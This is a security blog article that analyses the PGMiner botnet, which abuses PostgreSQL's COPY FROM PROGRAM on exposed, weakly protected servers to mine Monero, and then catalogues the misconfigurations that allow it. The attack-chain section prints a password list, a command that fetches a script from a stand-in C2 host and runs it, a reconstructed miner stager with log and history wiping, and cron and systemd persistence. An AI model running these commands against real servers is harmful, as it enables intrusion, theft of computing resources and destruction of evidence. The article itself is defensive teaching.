---
tags:
  - security
  - postgresql
  - linux
  - vps
  - cryptojacking
title: "PGMiner: Anatomy of a PostgreSQL Cryptojacking Attack — From Discovery to Defense"
author: Huy Nguyen
pubDatetime: 2026-09-01T13:00:00Z
slug: pg-miner-attack
featured: true
description: "A deep dive into the PGMiner botnet — how it weaponizes PostgreSQL's COPY FROM PROGRAM to hijack VPS servers for Monero mining, the mistakes that make servers vulnerable, and a hands-on lab to simulate every step of the attack."
---

## Table of contents

---

In December 2020, Palo Alto Networks' Unit 42 published a report on a new Linux-based botnet. It was the **first known botnet delivered through PostgreSQL**. They named it **PGMiner**.

The botnet scanned the internet for port 5432, brute-forced the `postgres` superuser account, exploited PostgreSQL's `COPY FROM PROGRAM` feature to execute shell commands on the host, and silently installed a Monero cryptocurrency miner.

No CVE was needed. No zero-day was required. It was built entirely on misconfiguration.

This article walks through everything:

1. How the internet first encountered PGMiner
2. How the attack chain works under the hood on a VPS
3. Every common mistake that exposes a PostgreSQL server to this kind of attack
4. How to harden a VPS so PGMiner has no foothold
5. A hands-on lab: set up a deliberately vulnerable VPS, run a simulated attack, and see exactly what happens at every step

---

## Part 1 — How the Internet First Saw PGMiner

### The Discovery Timeline

On **December 10, 2020**, Unit 42 researchers at Palo Alto Networks published their findings. They had captured samples of a new botnet in the wild that was doing something no botnet had done before: specifically targeting and exploiting PostgreSQL database servers as its primary delivery mechanism.



### Why It Mattered

Before PGMiner, cryptocurrency mining botnets typically targeted well-known services like SSH (brute-forcing root), Redis (unauthenticated command execution), or Docker (exposed daemon API). PGMiner introduced PostgreSQL as a viable attack surface.

The key insight was this: PostgreSQL has a feature called `COPY FROM PROGRAM` that lets a superuser execute arbitrary OS commands. This is a **legitimate, documented feature** — not a vulnerability. But when a PostgreSQL instance is exposed to the internet with a weak password on the `postgres` superuser account, that feature becomes a remote code execution gateway.



### The CVE-2019-9193 Controversy

In March 2019, CVE-2019-9193 was filed claiming that `COPY FROM PROGRAM` in PostgreSQL 9.3+ was a vulnerability. The PostgreSQL project **disputed this classification**. Their position:

> `COPY FROM PROGRAM` is a feature available only to superusers and users granted the `pg_execute_server_program` role. A superuser can already do anything on the system. This is by design.

They were right. The feature itself is not a vulnerability. The vulnerability is **giving superuser access to an attacker** through weak passwords and misconfigured authentication. But PGMiner proved that in practice, enough servers were misconfigured that the distinction was academic.



---

## Part 2 — How the Attack Works on a VPS (Under the Hood)

This section breaks down the full PGMiner attack chain into discrete phases. Each phase is explained with what happens at the network, operating system, and application level.

### The Complete Attack Chain



### Phase 1: Reconnaissance — Scanning for PostgreSQL

PGMiner starts by scanning large IP ranges for hosts with port **5432** open (the default PostgreSQL port). The scanning is fast and indiscriminate — it targets entire CIDR blocks of major cloud providers (AWS, Azure, GCP, DigitalOcean, etc.).

```
# What the scanner is essentially doing:
# Masscan-style sweep across cloud IP ranges
masscan 0.0.0.0/0 -p5432 --rate=10000
```

The scanner identifies hosts that respond on port 5432 with a PostgreSQL handshake. These IPs are queued for the brute-force phase.

**What happens at the network level:**



### Phase 2: Brute-Force — Cracking the postgres Account

Once a PostgreSQL server is identified, PGMiner attempts to authenticate as the **`postgres`** superuser using a list of common/default passwords. The password list typically includes:

| Priority | Password tried          | Why it works                           |
|----------|-------------------------|----------------------------------------|
| 1        | _(empty string)_        | Default on many unconfigured installations |
| 2        | `postgres`              | Username = password, extremely common  |
| 3        | `password`              | Universal bad password                 |
| 4        | `123456`                | Common sequential bad password         |
| 5        | `admin`                 | Generic admin credential               |
| 6        | `root`                  | Common for Linux-minded admins         |
| 7        | _(no password sent)_    | Exploits servers with `trust` auth in `pg_hba.conf` |

The `trust` authentication method is particularly dangerous. When `pg_hba.conf` is configured with `trust` for remote connections, the server bypasses password checks entirely — any connection attempt is accepted unconditionally without requiring a password.



### Phase 3: Initial Access — COPY FROM PROGRAM

This is the core of the exploit. Once authenticated as a PostgreSQL superuser, PGMiner uses the `COPY FROM PROGRAM` command to execute arbitrary operating system commands.

Here is what `COPY FROM PROGRAM` is designed for:

```sql
-- Legitimate use: import data from an external command
CREATE TABLE server_info (line TEXT);
COPY server_info FROM PROGRAM 'hostname';
-- Result: inserts the server hostname into the table
```

Here is how PGMiner abuses it:

```sql
-- PGMiner's exploitation: download and execute malicious payload
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec (cmd_output TEXT);
COPY cmd_exec FROM PROGRAM 'curl -s http://malicious-c2-server/payload.sh | bash';
```

That single SQL statement causes the PostgreSQL process (running as the OS user `postgres`) to:

1. Spawn a child process
2. Execute `curl -s http://malicious-c2-server/payload.sh | bash`
3. Download a shell script from the attacker's command-and-control server
4. Execute that shell script with the privileges of the `postgres` OS user



### Phase 4: Payload Download — The Stager Script

The initial payload downloaded is typically a **stager script** — a small shell script whose job is to prepare the environment and download the actual mining malware. PGMiner notably used multiple C2 channels:

1. **Direct HTTP** — plain curl/wget download from hardcoded IPs
2. **SOCKS5 proxies** — to obscure the true C2 server location
3. **Discord CDN** — abusing Discord's file hosting as a dead-drop for payloads
4. **Tor hidden services** — for resilient C2 infrastructure



A simplified version of what the stager script does:

```bash
#!/bin/bash
# PGMiner stager script (simplified reconstruction)

# Step 1: Identify the architecture
ARCH=$(uname -m)

# Step 2: Remove traces of previous runs
rm -rf /tmp/.X11-unix /tmp/.X25-unix 2>/dev/null

# Step 3: Kill competing miners (yes, they fight each other)
pkill -f kdevtmpfsi 2>/dev/null
pkill -f kinsing 2>/dev/null
pkill -f xmrig 2>/dev/null

# Step 4: Download the appropriate miner binary
curl -o /tmp/.miner http://c2-server/xmrig_${ARCH} -s
chmod +x /tmp/.miner

# Step 5: Download mining configuration
curl -o /tmp/.config.json http://c2-server/config.json -s

# Step 6: Execute the miner
nohup /tmp/.miner -c /tmp/.config.json > /dev/null 2>&1 &
```

### Phase 5: Environment Preparation — Eliminating Competition

One of the most interesting aspects of PGMiner is its **competitive behavior**. Cryptojacking botnets compete for the same pool of vulnerable servers, so PGMiner actively kills other known mining malware before installing itself.



**Step 1 — Kill competing miners:**

| Command | Target |
|---------|--------|
| `pkill -f kdevtmpfsi` | Kinsing miner |
| `pkill -f xmrig` | Generic XMRig instances |
| `pkill -f kthreaddi` | Kthreaddi miner family |
| `pkill -f sysrv` | Sysrv botnet |

**Step 2 — Disable security tools:**

| Command | Purpose |
|---------|---------|
| Stop cloud security agents | Removes Alibaba Cloud / Tencent Cloud monitoring |
| Flush iptables rules | Removes firewall rules added by other malware |
| Remove rival cron jobs | Deletes scheduled tasks from competing botnets |

**Step 3 — Clean up evidence:**

| Command | Purpose |
|---------|---------|
| `history -c && rm ~/.bash_history` | Clear bash command history |
| `rm /var/log/postgresql/*.log` | Remove PostgreSQL log entries |
| `rm /tmp/payload.sh` | Delete the downloaded stager script |

### Phase 6: Persistence — Surviving Reboots

PGMiner installs persistence mechanisms to survive reboots and manual cleanup attempts:

```bash
# Cron-based persistence
(crontab -l 2>/dev/null; echo "* * * * * curl -s http://c2/payload.sh | bash") | crontab -

# Systemd service (if running as root or with sudo)
cat > /etc/systemd/system/system-update.service << 'EOF'
[Unit]
Description=System Update Service
After=network.target

[Service]
ExecStart=/tmp/.miner -c /tmp/.config.json
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
EOF
```



### Phase 7: Mining — Monero via XMRig

The final payload is **XMRig**, a well-known open-source Monero miner. The attacker's configuration connects it to a mining pool using the attacker's wallet address.

```json
{
    "autosave": false,
    "cpu": {
        "enabled": true,
        "max-threads-hint": 75
    },
    "pools": [
        {
            "url": "pool.minexmr.com:4444",
            "user": "ATTACKER_MONERO_WALLET_ADDRESS",
            "pass": "x",
            "keepalive": true,
            "tls": false
        }
    ]
}
```

**Why Monero?** Monero (XMR) is the preferred cryptocurrency for cryptojacking because:

1. **CPU-mineable** — unlike Bitcoin, Monero's RandomX algorithm is designed for CPUs, making VPS servers viable miners
2. **Privacy by default** — all transactions are private, so stolen funds cannot be traced on the blockchain
3. **Difficult to track** — no public ledger of wallet balances



### Phase 8: Lateral Spread

After establishing itself on one host, PGMiner scans the local network and the broader internet for more vulnerable PostgreSQL instances, starting the cycle again.

---

## Part 3 — Every Mistake That Exposes Your VPS to PGMiner

This section catalogs every common misconfiguration that makes a PostgreSQL VPS vulnerable to PGMiner or similar attacks. If you find yourself in any of these situations, you are at risk.

| Category | Mistake | Risk Level |
|----------|---------|------------|
| 🔴 **Authentication** | Weak/default password on `postgres` | CRITICAL |
| 🔴 **Authentication** | `trust` authentication for remote hosts | CRITICAL |
| 🔴 **Authentication** | No password set at all | CRITICAL |
| 🟠 **Network** | Port 5432 open to `0.0.0.0/0` | CRITICAL |
| 🟠 **Network** | No firewall configured | HIGH |
| 🟠 **Network** | No VPN/SSH tunnel for DB access | HIGH |
| 🟣 **Operating System** | Running PostgreSQL as `root` | CRITICAL |
| 🟣 **Operating System** | No resource limits (cgroups) | MEDIUM |
| 🟣 **Operating System** | No SELinux/AppArmor | MEDIUM |
| 🔵 **Database Config** | Default `postgres` superuser active remotely | HIGH |
| 🔵 **Database Config** | `pg_execute_server_program` granted broadly | HIGH |
| 🔵 **Database Config** | No connection logging | MEDIUM |
| 🟢 **Operational** | No monitoring or alerting | MEDIUM |
| 🟢 **Operational** | No regular security audits | MEDIUM |
| 🟢 **Operational** | Unpatched PostgreSQL version | HIGH |

### Mistake 1: Using Default, Weak, or Unset Passwords

This is the single most common enabler. Many PostgreSQL installations ship with the `postgres` superuser account having either no password configured or a trivial password like `postgres`.

```bash
# Check if the postgres superuser has a password configured:
sudo -u postgres psql -c "SELECT usename, passwd IS NOT NULL AS has_password FROM pg_shadow WHERE usename = 'postgres';"
```

**Risk level: CRITICAL** — This alone is enough for PGMiner to compromise your server.

### Mistake 2: Trust Authentication in pg_hba.conf

The `pg_hba.conf` file controls who can connect and how they authenticate. The `trust` authentication method means **no password is required**.

```conf
# DANGEROUS — anyone from any IP can connect without a password:
host    all    all    0.0.0.0/0    trust

# SAFE — require scram-sha-256 authentication:
host    all    all    127.0.0.1/32    scram-sha-256
```

### Mistake 3: Exposing Port 5432 to the Internet

PostgreSQL's default port 5432 should never be directly accessible from the public internet. There is almost never a legitimate reason for this.

```bash
# Check if port 5432 is listening on all interfaces:
ss -tlnp | grep 5432
# If you see 0.0.0.0:5432 — you are exposed
# You want to see 127.0.0.1:5432
```

### Mistake 4: Running PostgreSQL or Containers with Excessive Privileges

By design, PostgreSQL's server daemon refuses to start directly as root (`postgres: cannot be run as root`). However, severe privilege issues still occur when:
- The `postgres` OS user is granted passwordless `sudo` (`NOPASSWD: ALL`) in `/etc/sudoers`.
- PostgreSQL runs inside a Docker container configured with `--privileged` or root user namespace mappings.
- The host OS is unpatched, allowing local privilege escalation (LPE) from the `postgres` user to `root`.

```bash
# Check which user PostgreSQL runs as:
ps aux | grep postgres | head -3
# It should show user 'postgres', NOT 'root'
```

### Mistake 5: No Firewall Rules

Running a VPS without a firewall is like leaving your front door open. Every port is exposed to every scanner on the internet.

```bash
# Check if ufw (Uncomplicated Firewall) is active:
sudo ufw status
# If it says 'inactive' — you have no firewall
```

### Mistake 6: Leaving postgresql.conf listen_addresses as '*'

```conf
# In postgresql.conf:
# DANGEROUS:
listen_addresses = '*'

# SAFE — only listen on localhost:
listen_addresses = 'localhost'
```

### Mistake 7: Granting Superuser or Execution Roles to Applications

In PostgreSQL, only superusers and members of the `pg_execute_server_program` role (introduced in PostgreSQL 11) can execute `COPY ... FROM PROGRAM`. A major security mistake is using the superuser `postgres` account in web application connection strings or granting excessive roles to standard application users.

```sql
-- Check which users have superuser or pg_execute_server_program:
SELECT rolname, rolsuper,
       pg_has_role(rolname, 'pg_execute_server_program', 'member') AS can_exec_program
FROM pg_roles;
```

### Mistake 8: No Connection Logging

If you do not log connections, you will not know when an attacker is brute-forcing your database. While authentication failures are logged by default at `FATAL` level in PostgreSQL, enabling connection and disconnection logging provides the full audit trail with timestamps and client IPs.

```conf
# In postgresql.conf:
log_connections = on
log_disconnections = on
log_line_prefix = '%m [%p] %q%u@%d %h '
```

### Mistake 9: No CPU/Resource Monitoring

A cryptominer will spike your CPU to 75-100%. Without monitoring, this can go unnoticed for months while you pay inflated cloud bills.

---

## Part 4 — How to Prevent PGMiner (Hardening Guide)

This section is a complete hardening checklist. Each item directly counters one or more attack phases.

